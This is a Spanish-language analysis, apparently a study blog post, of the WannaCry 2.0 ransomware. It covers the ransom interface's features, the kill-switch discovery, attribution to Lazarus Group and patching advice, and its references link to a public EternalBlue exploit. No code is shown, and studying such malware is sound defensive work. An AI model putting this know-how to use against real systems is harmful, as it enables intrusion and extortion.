
📎 Características Menores y Curiosidades de Diseño
Dentro del análisis dinámico de la interfaz gráfica de Wana Crypt0r 2.0, existen dos componentes inusuales que llaman la atención por su diseño operativo, asemejándose más a un servicio de atención al cliente corporativo (Help Desk) que a un software criminal tradicional.
1. El Sistema de Soporte Técnico Integrado ("Contact Us")
En la esquina inferior izquierda de la interfaz roja, el malware incluye un hipervínculo que abre un cuadro de diálogo para enviar mensajes directos a los desarrolladores.
- El Propósito Teórico: Diseñado originalmente como un canal de soporte para negociar el precio del rescate, enviar pruebas de pago o solicitar asistencia técnica si la víctima no sabía cómo comprar Bitcoins.
- La Realidad Operativa: Durante la epidemia global, nunca se registró una respuesta real por parte de los atacantes a través de este módulo. Debido a que el malware se propagó de forma masiva y descontrolada (actuando como gusano autónomo), los servidores de comando y control (
.onion) colapsaron bajo el peso del tráfico mundial, dejando este sistema de mensajería completamente inútil y desatendido.
2. El Botón de Descifrado Gratuito de Prueba ("Decrypt")
La interfaz cuenta con un botón interactivo que permite a la víctima descifrar una pequeña selección de archivos de forma totalmente gratuita y sin conexión a internet.
- La Estrategia Psicológica (Ingeniería Social): El objetivo de esta función es generar confianza en la víctima. Al demostrar que el software realmente posee la capacidad técnica de revertir el algoritmo AES-128 y devolver los archivos intactos, los atacantes buscaban incentivar el pago de los 300 dólares en Bitcoin, eliminando el temor común de "si pago, igual no me van a devolver nada".
- El Mecanismo Técnico Oculto: Para que esto funcione sin que el usuario pague, el dropper incluye dentro de sus archivos de soporte (
.wnry) un puñado de archivos de demostración pre-seleccionados o genera llaves AES temporales expuestas únicamente para archivos cuyo tamaño sea ridículamente pequeño (normalmente unos pocos kilobytes), permitiendo al descifrador local liberarlos como "muestra de buena fe" sin comprometer la clave maestra de la sesión (00000000.eky).
Solucion de la detencion primera variante
Entonces, ¿Como se logro deterner la epidemia de la primera variante de Wannacry2.0?
Todo paso durante varias horas despues, durante la noche del 12 de mayo del 2017 varios analistas de malware andaban investigando una brecha de seguridad que pudiera fallar la infeccion y propagacion del malware, asi como poder localizar al grupo de ciberdelicuentes que crearon este ataque cibernetico.
Uno de los analistas de malware, Marcus Hutchins, andaba investigando como cualquier otra persona. De repente descubre que el ransonware hace un envio de peticion hacia una pagina para verificar si la pagina responde o no, si la pagina responde (Peticion = 1) con un valor el ransonware se detendra y funcionara como un kill switch para evitar propagarse, en caso de que no responda (Peticion = 0) el ransonware simplemente este seguira propagandose sin control.
Marcus al ver esto, decidio comprar el dominio de la pagina que le costo tan solo 5 dolares, evitando que se siga propagandose y asi las empresas pudieran tener un respiro antes de actuar.
En el mismo dia el US-CERT lanzo un alerta sobre wannacry, advirtiendo
🧩 Atribución: Relación con Lazarus Group
Diversas investigaciones realizadas por Google, Kaspersky y otros laboratorios de seguridad encontraron similitudes entre una variante temprana de WannaCry y el backdoor Contopee, previamente atribuido al grupo Lazarus.
Una de las coincidencias más relevantes corresponde a una rutina prácticamente idéntica utilizada para la generación de buffers aleatorios.
Al tratarse de similitudes a nivel de implementación y no únicamente de comportamiento, este hallazgo continúa siendo uno de los principales argumentos utilizados para relacionar WannaCry con Lazarus Group.
Aunque la atribución nunca ha sido demostrada de forma definitiva, actualmente existe un amplio consenso dentro de la comunidad de ciberseguridad que vincula el ransomware con dicho actor de amenazas.
🛡️ Recomendaciones de Mitigación
- Aplicar el parche MS17-010 en todos los sistemas vulnerables, incluidos aquellos que recibieron actualizaciones extraordinarias como Windows XP y Windows Server 2003.
- Bloquear los puertos 137, 139, 445 y 3389 cuando no sean estrictamente necesarios.
- Deshabilitar SMBv1 siempre que sea posible.
- Mantener una estrategia de copias de seguridad desconectadas de la red.
- Implementar segmentación de red para limitar la propagación lateral.
- Mantener actualizado el software antivirus y las soluciones EDR.
- Para variantes que aún lo utilizan, mantener accesible el dominio kill-switch, ya que impide la ejecución del ransomware al responder correctamente la consulta realizada por el malware.
Referencias
Evolucion del Ransonware: s4vitar. (2022, 12 diciembre). La HISTORIA y EVOLUCIÓN de los RANSOMWARE [Vídeo]. YouTube. https://www.youtube.com/watch?v=tOFzERkOg1s
Wannacry y su cronologia: VMalware Archives. (2023, 15 abril). WannaCry y la cronología de un ciberataque [Vídeo]. YouTube. https://www.youtube.com/watch?v=ojfLdNhuAXM
Lista de vulnerabilidades de CISA (US-CERT): Known Exploited Vulnerabilities Catalog | CISA. (2026, July 1). https://www.cisa.gov/known-exploited-vulnerabilities-catalog-print
Descripcion de la vulnerabilidad CVE-2017-0144: CVE Program. (2017, 14 de marzo). CVE-2017-0144. CVE Record. https://www.cve.org/CVERecord?id=CVE-2017-0144
Codigo Ethernal Blue Windows 7 / Windows Server 2008 R2: Sleepya. (2017, 17 mayo). Microsoft Windows 7/2008 R2 - «EternalBlue» SMB Remote Code Execution (MS17-010). Exploit Database. https://www.exploit-db.com/exploits/42031
Explicacion Ethernal Blue: SentinelOne. (2025, 27 abril). EternalBlue Exploit: What It Is And How It Works. SentinelOne. https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/
Wannacry Primitivo: S!Ri. (2017, 10 febrero). #Ransom 9C7C7149387A1C79679A87DD1BA755BC https://t.co/DjFbJib5zD. X (Formerly Twitter). https://x.com/siri_urz/status/830008052954890242
Parche de seguridad para windows: BetaFred. (s. f.). Boletín de seguridad de Microsoft MS17-010: crítico. Microsoft Learn. https://learn.microsoft.com/es-es/security-updates/securitybulletins/2017/ms17-010
Wannacry Primitivo 2.0: Hahn, K. (2017, 27 marzo). #WannaCry #ransomware (9/61) https://t.co/ElGfsWAnWj https://t.co/1aIcYAIqqb. X (Formerly Twitter). https://x.com/struppigel/status/846241982347427840
Double Pulsar: DoublePulsar SMB Scan. (s. f.). https://www.extrahop.com/resources/detections/doublepulsar-smb-scan
WannaCry 2.0: MalwareHunterTeam. (2017, 12 mayo). There is a new version of WCry/WannaCry ransomware: «WanaCrypt0r 2.0». Extension: .WNCRY Note: @Please_Read_Me@.txt @BleepinComputer https://t.co/tdq0OBScz4. X (Formerly Twitter). https://x.com/malwrhunterteam/status/862946459376857088
Descripcion tecnica de WannaCry 2.0: Sneddon, J. (s.f.). Reverse engineering WannaCry worm anti-exploit Snort rules. GIAC Certifications. https://www.giac.org/paper/grem/5549/reverse-engineering-wannacry-worm-anti-exploit-snort-rules/165237